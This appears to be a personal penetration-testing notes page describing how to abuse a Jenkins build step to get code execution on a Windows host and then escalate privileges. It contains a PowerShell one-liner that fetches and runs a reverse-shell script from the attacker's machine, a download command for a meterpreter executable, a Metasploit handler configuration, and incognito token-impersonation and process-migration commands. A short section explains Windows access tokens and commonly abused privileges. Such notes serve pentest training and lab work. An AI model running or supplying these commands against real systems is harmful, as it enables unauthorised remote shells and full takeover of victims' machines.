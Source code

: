 ```yaml
---
title: Jenkins 👨‍🎓
---
```

![](Pasted%20image%2020240512182145.png)

## Gaining a reverse shell

1. Go to `Jenkins >> New Item`
2. Create a new `Freestyle project`
3. Go to `Build section` and select `Execute Windows batch command`:

![](Pasted%20image%2020240512180945.png)

4. Create in your local machine the `.ps1` reverse shell.
	- This shell is already in  [Reverse shells 👾](reverse_shells.md)
5. Initialize the python server for the script to download
6. now paste the following command in Jenkins:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PYTHON_PORT/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress YOUR_IP -Port PYTHON_PORT
```

7. now go to `Build Now` int he build you created

==You will receive the shell pretty fast==

![](Pasted%20image%2020240512182102.png)

### Switch to a meterpreter

1. Generate a Windows meterpreter reverse shell using [Msfvenom 🕸️](/notes/Tools/msfvenom.md) (*check the command in the note*)
2. After creating the payload, download it into the machine with:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://YOUR_IP:PYTHON_PORT/SHELL.exe','SHELL.exe')"
```

3. Start Metasploit with `msfconsole -q`
4. Ensure the handler is set up in Metasploit:

```shell
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT your_port 
run
```

5. Execute the reverse shell in the victim's machine with:

```shell
Start-Process SHELL.exe
```

### Privilege Escalation with Token Impersonation

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- User SIDs(security identifier)
- Group SIDs
- Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:
- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:
- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

- View all the privileges using `whoami /priv`

Now, in Metasploit run:

```shell
load incognito
# run first "use incognito" if not installed
```

To check which tokens are available, enter:

```shell
list_tokens -g

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
...
```

Impersonate the `BUILTIN\Administrators` token with:

```shell
 impersonate_token "BUILTIN\Administrators"
 # Confirm with
 getuid
```

Now migrate to a process with correct permissions with:

```shell
migrate PID_OF_PROCESS
```

Now you are `System32`

